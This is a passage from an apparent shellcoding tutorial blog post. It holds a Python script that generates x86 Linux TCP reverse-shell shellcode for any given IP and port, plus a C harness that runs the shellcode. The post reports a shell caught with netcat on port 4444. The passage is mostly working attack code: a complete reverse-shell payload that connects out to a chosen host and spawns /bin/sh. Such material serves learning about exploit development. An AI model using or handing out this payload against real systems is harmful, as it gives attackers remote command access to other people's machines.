 
    return "\\x%s\\x%s" % (h2, h1)

if (len(sys.argv) != 3):
    print ("usage: " + argv[0] + " ip port");
    sys.exit(-1);


xored_hex_bin_ip = xor_ip_address(sys.argv[1])
hex_port_number = port_to_hex(int(sys.argv[2]))

print "Creating TCP reverse shell shellcode for IP: " + sys.argv[1] + " on port: " + str(sys.argv[2])
print "XOR'ed IP address translation: " + xored_hex_bin_ip
print "Hex port number translation: " + hex_port_number

shellcode="\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc3\\xb8"+ xored_hex_bin_ip +"\\x83\\xf0\\xff\\x50\\x66\\x68" + hex_port_number + "\\x66\\x6a\\x02\\x89\\xe1\\xb2\\x10\\x31\\xc0\\x66\\xb8\\x6a\\x01\\xcd\\x80\\x85\\xc0\\x75\\x24\\x31\\xc9\\xb1\\x02\\x31\\xc0\\xb0\\x3f\\xcd\\x80\\x49\\x79\\xf9\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xb0\\x0b\\xcd\\x80\\xb3\\x01\\x31\\xc0\\xb0\\x01\\xcd\\x80"

print shellcode

{% endhighlight %}

## Code in action

Running our shellcode, we had a reverse shell on port 4444 on address 127.0.0.1
as shown in this video.

{% asciicast 181334 %}


Using scdump.sh helper, I extracted the shellcode from the binary tool and
inserted in the shellcode.c helper program.

{% highlight c %}
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"SHELLCODE";
		       
int main(int argc, char **argv)
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
{% endhighlight %}

As you can see from the video, after compiling the C code, disabling stack
protection and run it.

On another terminal, there is a netcat listening on port 4444, waiting for
reverse connection. As you can see, reverse shell was successfully spawned on
connection.
